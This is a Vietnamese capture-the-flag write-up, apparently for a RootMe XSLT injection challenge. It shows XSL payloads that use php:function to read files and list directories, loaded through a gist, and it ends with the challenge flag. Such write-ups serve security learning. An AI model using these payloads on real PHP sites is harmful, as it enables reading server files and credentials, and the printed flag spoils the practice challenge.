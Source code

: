 ![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/51277add-dec3-4e60-bbd9-12d8c5edd368)

Chọn style sẽ hiển thị ra

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/ce81e263-925b-44b0-aede-14ad0f4962e5)

Đọc trên trang này (https://security.stackexchange.com/questions/170712/execute-a-php-function-that-returns-an-array-from-an-xsl-file) , ta có được 1 đoạn code để đọc file

```
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<xsl:template match="/">
<xsl:value-of select="php:function('file_get_contents','index.php')"/>
</xsl:template>
</xsl:stylesheet>
```
Tạo 1 gist để thực hiện RFI

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/cfbc13ca-5069-4c62-8eed-4e46e0a192c0)

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/613ffe7a-518e-49d1-ae0d-f96724d016af)

=> File index.php không có gì. Thử đọc file .passwd nhưng có vẻ như nó không nằm ở dir /

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/47310a44-4d3f-4984-b0cc-e96b324d2411)

cũng trong cmt của site trên stack kia, ta thấy cách để scan dir

```
<xsl:value-of select="php:function('opendir','./')"/>
<xsl:value-of select="php:function('readdir')"/>
```
![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/5f368b18-8976-4c7d-8b28-d16000001a14)

=)))) trông hơi nhìu func readdir nhỉ nhma tôi có đọc thêm ở chỗ khác thì biết được vì XSL nó k auto show ra, bạn ```cat``` bao nhiêu nó show bấy nhiêu thôi. Nên cứ add nhiều , nếu thừa thì nó trả về false thôi.

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/eea40849-a979-4e2a-be67-8a5a850fecfa)

=)) thừa ra mấy cái false lận nhma không sao

Đọc cái file trông khả nghi là ".6ff3200bee785801f420fba826ffcdee" nhma có lẽ nó là dir. 

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/13053be8-41a0-4bf5-bf6c-634b61f98f09)

vậy thì scan nó tiếp :v

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/b40be4d2-feef-4570-8263-feadc6604c21)

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/d3d20aa3-6b97-4678-bbc5-2a49efe4a989)

đây rồi =)))) file .passwd

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/9be6b370-ed36-4eb3-999d-2e896188f0dc)

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/c794ea14-f556-4d95-be0a-0a6c56acb8ce)

=> flag: X5L7_R0ckS

=))) ai thắc mắc sao ban đầu là exploit.xsl mà về sau là read_file.xsl và scan_dir.xsl thì do thấy dùng nhiều nên tôi
chia ra cho lẹ
